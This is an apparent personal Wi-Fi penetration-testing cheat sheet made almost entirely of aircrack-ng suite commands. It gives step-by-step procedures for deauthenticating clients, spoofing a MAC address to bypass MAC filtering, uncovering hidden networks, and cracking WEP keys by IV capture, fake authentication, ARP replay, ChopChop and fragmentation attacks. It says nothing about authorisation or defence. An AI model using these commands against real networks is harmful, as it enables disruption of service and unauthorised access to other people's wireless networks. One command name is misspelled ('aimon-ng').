 # Wifi Sec pentest

## Status of the wifi card
```
sudo iwconfig
```

## Monitor mode
```
aimon-ng start wlan1
```

```
iwconfig
```

## Scanning wifi - AIRODUMP
```
airodump-ng wlan1mon
```

```
airodump-ng --bssid [[mac]] --channel [[channel]] wlan1mon
```

```
airodump-ng --bssid [[mac]] --channel [[channel]] --write data wlan1mon
```

## Deauth process - AIRODUMP
```
aireplay-ng --deauth 20000 -a [[BSSID]] -c [[STATION]] wlan1mon
```

## MAC Changer
```
sudo macchanger -r wlan1
```



## Scanning Wifi
```
sudo iwlist wlan1 scan
```

See link quality continuously on screen
```
watch -n 1 cat /proc/net/wireless
```

Using wavemon to scanning wifi
```
sudo apt install wavemon
```
```
sudo wavemon
```

## Mac Change:
```
ifconfig [intname] down
ifconfig [intname] hw ether [new_mac]
ifconfig [intname] up
```

## Set monitor mode:
```
iwconfig
ifconfig [intname] down
airmon-ng check kill
iwconfig [intname] mode monitor
iwconfig
ifconfig [intname] up 
ifconfig
```

## Sniffing wifi:
```
airodump-ng intname_mon
airodump-ng --bssid [bssid] --channel [channel#] --write [file] [intname_mon]
```

## Deauthentication Attack:
```
aireplay-ng --deauth [#DeauthPackets] -a [NetworkMAC] -c [targetMAC] [Interface]
```

## Hidden Networks
Check with airodump-ng, then run a deauth attack and then in airodump-ng on ESSID name should get the hidden network name.

Mac Auth Bypass:
- Check airodump and find the open networks.
- Get airodump on specific network.
- Get a Host to connect, and get the STATION MAC.
- Change MAC to the STATION MAC.
```
ifconfig [intname] down
sudo macchanger -m [mac_add] [int_name]
```

## WEP Cracking

Busy network:
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
		
Idle network: (force the AP to generate new IVs) - Fake Authentication
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Fake Authentication
```
aireplay-ng --fakeauth 0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```

Generate traffic:
ARP request replay
```
aireplay-ng --arpreplay -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII


	ChopChop Attacks
1. Capture a packet and determine its key stream
```
aireplay-ng --chopchop -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
	
	Fragmentation Attacks
1. Obtain PRGA (pseudo random generation algorithm)
```
aireplay-ng --fragment -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
